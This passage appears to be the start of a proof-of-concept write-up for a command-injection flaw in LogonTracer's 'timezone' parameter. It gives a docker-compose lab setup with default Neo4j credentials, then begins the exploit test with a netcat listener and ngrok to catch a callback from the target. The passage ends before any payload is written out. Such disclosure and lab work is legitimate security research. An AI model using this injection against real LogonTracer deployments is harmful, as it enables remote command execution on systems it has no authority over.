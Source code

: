 As well, we can use `docker-compose.yaml`:

```yaml
version: '3.8'

services:
  neo4j:
    image: neo4j:3.2.3
    container_name: neo4j
    ports:
      - "7474:7474"
      - "7687:7687"
    environment:
      - NEO4J_AUTH=neo4j/password

  logontracer:
    image: jpcertcc/docker-logontracer:v1.2.0
    container_name: logontracer
    ports:
      - "8080:8080"
    environment:
      - LTHOSTNAME=localhost
    depends_on:
      - neo4j
```

and run it with 

```bash
docker-compose up -d
```

and to shutdown

```bash
docker-compose down
```

## Poc

The vulnerability is based on that logontracer will execute any command after `timezone=1` parameter, see the code below.

### Test that the payload is really executed

#### Using grok

We use `ngrok` to test the call from logontracer to our `nc` listener.

Run `netcat` on port 8888:

```bash
nc -lvp 8888
```

Run `ngrok` to point to `http://localhost:8888`:
